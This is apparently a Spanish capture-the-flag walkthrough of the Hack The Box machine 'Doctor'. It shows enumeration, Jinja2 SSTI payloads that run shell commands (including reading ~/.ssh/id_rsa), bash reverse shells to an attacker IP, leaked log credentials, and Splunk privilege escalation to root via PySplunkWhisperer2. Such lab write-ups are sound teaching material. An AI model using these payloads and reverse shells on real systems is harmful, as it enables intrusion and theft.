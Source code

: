 10.10.10.209 - Doctor

![Doctor](https://user-images.githubusercontent.com/96772264/200542469-192afc61-3221-4abf-b5e4-3764ec5df541.png)

---------------------
## Part 1: Enumeracion

Puertos abiertos (script de bash): 22(ssh), 80(http), 8089(http)
El escaneo de nmap reporta lo siguiente:
```console
└─$ nmap -T5 10.10.10.209 -p22,80,8089 -sCV
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| http-robots.txt: 1 disallowed entry
```
Ya nos dicen que hay un robots txt que mirar.

```console
└─$ whatweb http://10.10.10.209  
http://10.10.10.209 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@doctors.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.209], JQuery[3.3.1], Script, Title[Doctor]
└─$ whatweb http://10.10.10.209:8089
ERROR Opening: http://10.10.10.209:8089 - Connection reset by peer
└─$ whatweb https://doctors.htb:8089   # Por https si
https://doctors.htb:8089 [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.10.10.209], Title[splunkd], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
```
El email es info@doctors.htb, eso indica el titulo de la web al que poner en el etc/hosts.  

![doctor1](https://user-images.githubusercontent.com/96772264/200542960-eb9db086-1d96-4e5b-ab00-378a56117ada.PNG)

Enumeracion web:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.209/FUZZ
000000536:   301        9 L      28 W       310 Ch      "css"                                                
000000939:   301        9 L      28 W       309 Ch      "js"                                                 
000000002:   301        9 L      28 W       313 Ch      "images"                                             
000002757:   301        9 L      28 W       312 Ch      "fonts" 
000095510:   403        9 L      28 W       277 Ch      "server-status"
```
Nada interesante, vamos a ver el splunkd:

![doctor2](https://user-images.githubusercontent.com/96772264/200543221-00bad634-f26c-402e-bd87-3c970086381b.PNG)

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.209:8089/FUZZ
000000068:   401        6 L      9 W        130 Ch      "services"                                           
000000998:   200        36 L     533 W      2178 Ch     "v2"                                                 
000002223:   200        36 L     533 W      2178 Ch     "v1"                                                 
000003349:   200        36 L     533 W      2178 Ch     "v3"                                                 
000005951:   200        36 L     533 W      2178 Ch     "v4"                                                 
000006750:   200        36 L     533 W      2178 Ch     "v5"                                                 
000007451:   200        36 L     533 W      2178 Ch     "v6"                                                 
000010676:   200        36 L     533 W      2178 Ch     "v7"                                                 
000020954:   200        36 L     533 W      2178 Ch     "v10"
```
Son todo rutas *vnumero* (suelen existir en las apis, ya investigare), todas devuelven 36 lineas asi que en wfuzz oculto respuestas de ese tamaño con el parametro 
```--hl=36``` pero ahi no encuentro nada. Recuerdo que habia un robots.txt en el nmap, existe pero no pone nada interesante.

----------------------------------------
## Part 2: STTI en la Web del puerto 80

Las rutas de la pagina principal no conducen a nada, (no son funcionales), lo interesante que sacar es nombres
"Dr. Jade Guzman", "Dr. Hannah Ford" y "Dr. James Wilson", que puede que sean usuarios del sistema.
Si en vez de la ip pongo http://doctors.htb me sale una pagina complemtamente diferente:

![doctor3](https://user-images.githubusercontent.com/96772264/200543675-8783420f-c498-494e-8ef0-93511f98e196.PNG)

```console
└─$ whatweb http://doctors.htb
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://doctors.htb/FUZZ
000000051:   200        100 L    238 W      4493 Ch     "register"
000000049:   200        5 L      8 W        101 Ch      "archive"
000000335:   302        3 L      24 W       251 Ch      "account"
000000039:   200        94 L     228 W      4204 Ch     "login"
000000024:   302        3 L      24 W       245 Ch      "home"
000001211:   302        3 L      24 W       217 Ch      "logout"
```

Me he registrado con un nombre que incluye una comprobacion de STTI (si al ver el nombre pone cucuxii49 es vulnerable) 
```usaurio "cucuxii{{9*9}}" mail "cucuxii{{9*9}}@mail.com", contraseña "cucuxii123"``` pero por ahora no.
La cuenta es temporal segun esto, 20 minutos. 
Tengo una cookie de sesion > ```".eJwljktqBDEMBe_idRbWz5LmMoMtySQEEuieWYXcfZqEWr1aPOqn3fdR53u7PY5nvbX7R7Zbm7I7SG615bRoW-nCRWuWCYQl18iYjJYOIuAEqhG5eHOhcg-AQKGBw9NEE9BqxB8StbsXI4ISh80c7DlkrujmNDuTQ7tCnmcd_zV4zTiPfX98f9bXJYYieteK4aTLsboFW10vqmTQoaTzImq_L9VKPeU.Y0fGCg.WNMwEmuC8pvT3TGVpBMmNQgIlAw"```

La decodifique en base 64 pero no son mas que bytes inutiles.
La web me deja escribir un mensaje, pongo otro STTI ({{9*9}}) pero tampoco.
Arriba pone ```http://doctors.htb/home?page=1``` pero tras varios intentos no parece ser vulnerable a LFI.

![doctor5](https://user-images.githubusercontent.com/96772264/200544480-8ef0f3dc-1a48-4359-9de5-dceb034ee93e.PNG)

La ruta /archive parece no tener nada, pero si vemos el codigo fuente sale un xml:

![doctor6](https://user-images.githubusercontent.com/96772264/200544699-12ba2cc8-773e-4be7-9002-5c01891aa05e.PNG)

Ese 81 de ahi que es? Pued nada mas ni nada menos que el resultado del STTI de antes que pusimos en New Message
```{{9*9}}```

Si pongo en mensaje (para luego ver en el archive este)
```{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}```
Me sale blog y blog.sh (o sea el output del comando):
```{{config.__class__.__init__.__globals__['os'].popen('cat ~/.ssh/id_rsa').read()}}``` nada
```{{config.__class__.__init__.__globals__['os'].popen('ping -c 1 10.10.14.5').read()}}``` 
Me llega la traza ```sudo tcpdump -i tun0 icmp -n``` asi que tenemos ejecucion remota de comandos.

Reverse shell:
```{{config.__class__.__init__.__globals__['os'].popen("bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'").read()}}```
```console
└─$ sudo nc -nlvp 443
web@doctor:~$ whoami
web
```
------------------------
## Part 3: En el sistema

Tras una enumeracion sin encontrar capabilities ni nada del estilo di con que el usuario es del grupo **adm** asi que puede leer los logs.
```console
web@doctor:/home$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
web@doctor:/var/log$ grep -rIE "password" 2>/dev/null
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
Con esas creds "shaun:Guitar123" te puedes conectar a la web dle puerto 8089. Como hay demasiadas rutas, puse  **pentesting splunkd** en Hacktricks y acabe en esta [pagina](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence)    
Ahi hablaban del script PySplunkWhisperer2 que me baje despues de github:  
```console
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --user shaun --password Guitar123 --lhost 10.10.14.5  --payload "whoami | nc 10.10.14.5 444"
└─$ sudo nc -nlvp 444 
root
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --user shaun --password Guitar123 --lhost 10.10.14.5  --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.5/444 0>&1'"
root@doctor:/# whoami
root
```





